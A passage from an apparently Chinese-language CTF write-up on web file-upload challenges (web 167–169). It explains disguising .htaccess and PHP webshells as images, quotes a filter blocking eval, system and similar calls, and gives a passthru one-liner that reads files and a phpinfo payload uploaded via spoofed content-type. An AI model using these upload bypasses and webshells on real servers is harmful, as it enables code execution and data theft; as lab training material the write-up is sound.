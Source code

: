 把以上内容写入到.htacess.jpg文件中，bp抓包，把.jpg删掉

在上传jpg图片马就可以解析了

![jpg](/medias/show-upload/29.png)

## web 168 免杀

题目提到了免杀，做完时查看源码

```php
preg_match('/eval|assert|assert|_POST|_GET|_COOKIE|system|shell_exec|include|require/i', $str);
```

注意，如果上传没有反应，检查一下

:::warning
过滤了很多。如果你上传的png马里含有这些内容，你的图片都不会上传成功
:::

这题没有其他限制，可以bp抓包把png改成php直接解析

文件上传到了html的同级目录upload下了，查看上一级下的所有文件内容

```php
<?=passthru('tac ../*');?>
```

## web 169 高级免杀

源码里看到，这题要上传zip文件，但content-type看起来是要image

![image](/medias/show-upload/30.png)

题目没有检查zip有没有猫腻，直接把zip内容改成php代码试试，上传zip，把content-type改成image/png

```php
<?=phpinfo();?>
```

![php](/medias/show-upload/31.png)
